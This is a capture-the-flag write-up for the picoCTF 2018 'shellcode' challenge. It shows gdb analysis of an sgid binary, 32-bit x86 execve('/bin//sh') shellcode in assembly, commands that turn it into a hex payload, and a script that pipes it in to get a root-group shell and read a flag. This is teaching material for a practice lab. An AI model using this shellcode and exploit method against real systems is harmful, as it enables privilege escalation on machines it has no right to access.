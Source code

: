 # PicoCTF_2018: shellcode

**Category:** Binary Exploitation
**Points:** 200
>This program executes any input you give it. Can you get a shell? 
You can find the program in /problems/shellcode_1_cec2eb801137d645a9f15b9b6af5347a on the shell server. Source.

> # Introduction

In this write-up I am going to demostrate how to gain shell access by exploiting this vulnerable program.
I shall show it in both 32bit and 64bit systems and you'll see the main differences.

> # Prerequisites:

You need to have some basic knowledge about C, gcc, linux command line, linux file permissions and x86 assembly. 

> # Scenario:

We have access to a system with an executable binary and a txt file containing the flag. The txt file is owned by a group 
that we are not members, so we don't have access. However, the executable binary is owned from tha same group and it has the sgid bit set. If we exploit it
and gain shell access we will grant privileges. As a result, we will be capable of reading the flag.txt to find the solution.
More about linux file permissions and sgid [here]

> # Setting up the environment:
First of all you need to download the executable and the flag from my git repository [here](https://github.com/giannoulispanagiotis/picoCTF-2018-wiretup/tree/master/shellcode).

Now we need to set up the permissions for both of the files to create the right scenario.

1. For the executable file vuln:

```bash
[sudo] chmod +x vuln
[sudo] chown root:root vuln
[sudo] chmod g+s vuln
```


2. For the flag file
```bash
[sudo] chown root:root flag.txt
[sudo] chmod 440 flag.txt 
```
Confirm by listing the file with ls -l vuln flag.txt. The result have to be something like that:

```
-r--r----- 1 root root 35 Oct 5 00:27 flag.txt
-rwxr-sr-x root root 725472 Oct 5 00:23 vuln
```

As you can see flag's and vuln's group ownership is root. But our user is not in root's group unfortunately. flag.txt is readable only from owner(root) and the members of the group's ownership(root again). But in vuln's file permissions we notice two things. First, group's ownership is also root and vuln has the sgid bit set. Which means that if we gain shell access from this executable our group id  will be root (0). I'll make it clear with screenshots soon. 

Okay now let's get to some nice stuff.
> # Shellcode Injection
We need to understand how the vuln program works. For this purpose we will make use of gdb to disassemble the program and find what it does.
This is how it looks like. (It may not be exactly the same in your case)


Nice, we see that the compiled binary is 32bit.
Inside the two functions (main and vuln) we need to focus on two points.
In the vuln function we see gets being called (which is vulnerable because doesn't check the size of our input, so we can overflow the buffer, but we don't need it in this challenge, it's much easier), so binary waits for input from stdin. Moreover, in the main function we can see the vulnerability we will exploit. **<main + 124>: call eax**
We want to find what it is inside register eax before we call it so we set a breakpoint before this instruction. Going down there we realize that in eax register is the address of the stack where our input is saved. So when program calls eax, tells processor to go to this address and execute the instructions that will find there. Thus we understand that if we put in the right input (a shellcode) we can easily gain access. And .... let's go write this shellcode anyway.

> # Crafting Shellcode
I will try to explain it in brief. First create shellcode.asm with the following code:
(Remember, memory is upside down, so when we want to push in the stack a string e.g. /bin/sh\0 we have to do it like that:

push \0 (null)

push //sh in hex

push /bin in hex

In 32 bit systems,  a memory block has a 4 bytes size, so we split our string. We also use 2 '//' so that we cover the whole block(4 bytes - '/sh' is 3 bytes), otherwise there will be something else in the 4th byte that we don't want to. /bin/sh and /bin//sh have no difference.

```asm
xor eax, eax ; clearing eax register
push eax     ; Pushing NULL bytes (\0)
push 0x68732f2f ; Pushing //sh
push 0x6e69622f  ; Pushing /bin
mov ebx, esp     ; ebx has address of /bin//sh
push eax         ; Pushing NULL byte (for argv array)
mov edx, esp     ; edx now has address of NULL byte
push ebx         ; pushing address of /bin//sh
mov ecx, esp     ; ecx now has address of address of /bin//sh 
mov al, 0xb    ; syscall number of execve is 11
int 0x80         ; system call
```

We call the execve function to get a shell.
In 32bit systems arguments of a function go in that way: eax, ebx, ecx, edx
Our function is:
```C
 int execve(const char *filename, char *const argv [], char *const envp[]);
```

This means we're passing the following:

> eax // Syscall of execve == 11 == 0xb

> ebx // Arg#1: pointer to the program string ("/bin//sh")

> ecx // Arg#2: pointer to the argunments array

*(argv[0] = "/bin//sh" , argv[1] = NULL)*

> edx // Arg#3: pointer to the environment array (NULL)

To compile it use nasm:

```bash
nasm -f elf shellcode.asm
```

Now we want to get the shellcode bytes in hex format.
If we use objdump -d shellcode.o the result is our assembly code and the hexadecimal format of it. To keep only the hex code we can use this command:
```bash
for i in $(objdump -d shellcode.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo;
```
*grep* is used to keep only lines with a space in the beginning. *cut -f2*  keeps the second column and with *echo* we print it in the format we want. 

After all, we almost have our input ready to pass it in our program. 

> # Crafting Payload
We need to understand that if we write as input something like: \x50\x35\x54\x73, in the stack will be this string converted into hex which is exactly the same when our input is: hello_world. That's something we don't want to. Python help us with that and prints our hex code in a string using ascii table.

```python
python -c 'print "--hex values here--"' >  payload
```
Now in the payload we have our input. We run vuln with input from payload

```bash
./vuln < payload
```
Congrats, or not? wait what the fuu?
We didn't get access to the shell. Ohh maybe we did something wrong in our shellcode...
No, basically we got access to the shell, but then, our program doesn't wait for some input and it terminates and we lose our access. We need a magic trick to overcome this problem.

*cat* command without arguments is doing exactly what we want, waits for input. Sooo what do you say about that:
```bash
(cat payload; cat) | ./vuln
```

```bash
cat flag.txt
```
Congrats, we got our flag.
Why can we now read flag.txt?
Using *id* command we notice that user is the same as before, but now we belong to root group. (sgid you are so dangerous my friend). And flag.txt allow to members of root group to read the file. Genious...
Before we get to 64bit systems let's write a shell script( I like doing that everytime, it's like a sum up)
```bash
nasm -f elf shellcode.asm

python -c "print '`(for i in $(objdump -d shellcode.o | grep "^ " | cut -f2); do echo -n '\x'$i; done;)`'"  > payload;

(cat payload; cat) | ./vuln
```







